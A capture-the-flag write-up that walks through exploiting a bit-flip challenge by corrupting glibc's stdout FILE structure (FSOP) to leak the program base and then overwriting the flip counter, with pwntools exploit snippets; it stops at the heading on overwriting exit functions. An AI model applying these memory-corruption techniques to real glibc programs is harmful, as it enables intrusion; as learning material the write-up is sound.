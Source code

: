 I did not solve this challenge but I decided to look back at it because I wanted to learn FSOP and overwriting exit funcs with one gadget.

## Challenge

This challenge provides us with 4 bit flips, and our addresses are calculated at an offset from `_IO_2_1_stdin_`. The path to a solution, as with many other bit flip challenges, is to first get infinite bit flips for arbitrary write. The bit flip counter is stored in the base program’s bss, but PIE is enabled. Our goal should be to leak the base address before our 4th bit flip so that we can overwrite the counter. The flip being relative to stdin hints that we will need some form of leak-oriented FSOP. (https://enzo.run/posts/lactf2024/#flipma)

```
stdout = 0xd20
write_base = stdout + 0x20
read_end = stdout + 0x10
```

First we will calculate the location of `_IO_2_1_stdin_` and its fields.

```
sla(b"a: ", "9")
sla(b"b: ", "9")
```

For this to work, we also need to make sure the _IO_CURRENTLY_PUTTING flag is set, and I initially thought we needed to use a bit flip on this, but just initializing stdout with an additional puts before the flips also works.

![image](https://github.com/user-attachments/assets/5da04128-6251-4532-99b4-1b853b01c373)

Next, we need to find a suitable location to leak the elf address. Using the search command in pwndbg, we can see there are 2 addresses in libc that contain the bytes of our elf section.

![image](https://github.com/user-attachments/assets/25c45ff4-9e6d-4f5b-8690-b90f8936ee96)

Unbuffered file streams hold libc addresses to themselves in the buffer fields.

![image](https://github.com/user-attachments/assets/5622ca66-3003-45b0-921e-33b93118e6c0)

The idea is to flip a bit in stdout->write_base `0x00007fd8a201a723` to become `0x00007fd8a2018723`. We can see that `0x7fd8a2018f4a 0xa4200000562941ac` will be located between the stdout->write_base and stdout->write_ptr.

but the file write function called from puts will treat the stream as buffered as long as there is a difference between _IO_write_base and _IO_write_ptr. This will cause the write function to print out memory from libc between those two addresses.

### Recap

To force flush the buffer with its contents:

- Ensure the _IO_CURRENTLY_PUTTING flag is set
- We need to set stdout->read_end = stdout->write_base
- Ensure stdout->write_ptr = stdout->write_end

So we will need to:

- Give an invalid index to make the program call puts with error message
- Change stdout->read_end and stdout->write_base to a location right before our leak location

```py
# _IO_write_base
sla(b"a: ", str(write_base+1))
sla(b"b: ", "5")

# _IO_read_end
sla(b"a: ", str(read_end+1))
sla(b"b: ", "5")
```

![image](https://github.com/user-attachments/assets/6829df7e-2dac-49aa-a274-27bc3c8d18ba)

After running the script above, we can see now in our IO File struct, our target is located between write_base and write_ptr.

```py
sla(b"a: ", "9")
sla(b"b: ", "9")

data = p.recvuntil(b"we're flipping bits, not burgers", timeout=1)
if len(data) < 100:
  print("failed")
  exit(1)

diff = 0x7f0c55badf4a - 0x00007f0c55bad723
elf_leak = u64(data[diff-2:diff+6])
exe.address = elf_leak - (0x55ff52d83020 - 0x55ff52d7f000)
li(f"exe addr @ {hex(exe.address)}")
```

![image](https://github.com/user-attachments/assets/ea0f0745-5cdb-45e4-a98e-669f0feeaecf)

We can find the offset of our leak by subtracting the leak location with the write_base.

```py
print(len(str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"])))
print(hex(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))

## Make flip to big number
sla(b"a: ", str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))
sla(b"b: ", "7")
```

![image](https://github.com/user-attachments/assets/e0cd6a25-0461-4bc3-902a-4b2cfc4ae30c)

Now we have a lot more bit flips.

### Overwrite exit funcs
